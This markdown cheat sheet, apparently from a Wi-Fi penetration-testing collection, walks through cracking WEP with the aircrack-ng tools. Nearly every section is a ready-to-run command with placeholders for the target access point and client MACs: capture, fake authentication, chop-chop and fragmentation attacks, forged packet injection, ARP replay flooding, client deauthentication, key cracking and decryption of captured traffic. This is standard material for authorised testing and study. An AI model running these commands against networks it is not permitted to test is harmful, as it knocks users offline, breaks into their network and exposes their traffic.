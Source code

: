 ### Capturing Packets
---
Cracking WEP requires around 10000 packets. 30k-40k is optimal.

##### Capturing Packets:
``` sh
sudo airodump -c <channel no.> -b <bssid> -w WEP_capture wlan0mon
```
- Keep Airodump-ng running while doing the below attacks.

### WEP Attacks
---
##### No Clients Connected:
###### Fake authentication Attack:
Some attacks required an associated MAC address of a client. If no clients are connected to the AP, we would need to associate with the AP ourself to perform packet injection.

To associate our MAC to the AP, we can perform a fake-auth attack:
``` sh
sudo aireplay-ng --fakeauth 0 -q 10 -a <AP bssid> -h <Our wlan0mon MAC> wlan0mon
```
or
``` sh
sudo aireplay-ng --fakeauth 6000 -o 1 -q 10 -a <AP bssid> -e <AP essid> -h <Our wlan0mon MAC> wlan0mon
```

> [!note] 
> Note: This attack only works on ***open system authentication (`OSA`)***
> 
> For `SKA`, sniffing / de-auth / cracking is required. (See [shared_key (Aircrack-ng)](https://www.aircrack-ng.org/doku.php?id=shared_key))

###### Chop chop Attack:
```sh
sudo aireplay-ng -4 -b <AP bssid> -h <Our wlan0mon MAC> wlan0mon
```
- Respond with `Y` when an ARP packet is found to use the packet.
- This will generate a XOR file (Decipher key) from the packet.

###### Fragmentation Attack:
```sh
sudo aireplay-ng -5 -b <AP bssid> -h <Our wlan0mon MAC> wlan0mon
```
- Aternative of Chop chop attack
- Always respond with `Y`.
- This will generate a XOR file (Decipher key) from the packet.

###### Packet Forging & Injection
```sh
packetforge-ng -0 -a <AP bssid> -h <Our wlan0mon MAC> -k 255.255.255.255 -l 255.255.255.255 -y <XOR file> -w <output file>
```
- This will forge an packet (`.pcap` file) with the decipher key we just obtained.

```sh
sudo aireplay-ng -2 -r <.pcap file> wlan0mon
```
- `-2` for Interactive Packet Replay attack (Packet Injection).
- This will flood the AP with the packet.
- Remember to keep `airdump-ng` running to capture the packets


##### Existing Clients:
###### Fake Authentication Attack:
If SKA is enabled, we would have to de-authenticate a connected client, and capture the SKA when they reconnect. We can then perform the previous fake authentication attacks. The easier way here is to directly spoof the MAC of the connected client to inject ARP packets, and generate the traffic required to crack the WEP Key.

###### ARP-request replay Attack:
This will generate a huge amount of ARP packets for cracking.
``` sh
sudo aireplay-ng -3 -b [AP bssid] -h [Target Client MAC] wlan0mon
```
- Requires the MAC address of a connected client.
###### De-authentication Attack (Unsure if needed):
``` sh
aireplay-ng --deauth 10 -a [bssid] -c [Specific Client MAC] wlan0mon
```


### Cracking WEP Key
---
When we captured over 10k packets, we can try to crack:
``` sh
aircrack-ng WEP-capture.cap
```


##### Decrypting Traffic:
When we have cracked a WEP or WPA key we can decrypt captured traffic in Wireshark:

`preferences > protocols > IEEE 802.11`, check "enable decryption", edit the decryption keys y create new entries. For WEP, use the key in hex format.`

If we don't have Wireshark we can do:

```sh
airdecap-ng -w <wep key in hex> <pcap>
```

```sh
tshark -r <decrypted pcap>
```


### References
---
[Wi-Fi-Pentesting-Cheatsheet/Wifi/cheatsheet/4 - WEP.md at main · dh0ck/Wi-Fi-Pentesting-Cheatsheet (github.com)](https://github.com/dh0ck/Wi-Fi-Pentesting-Cheatsheet/blob/main/Wifi/cheatsheet/4%20-%20WEP.md)

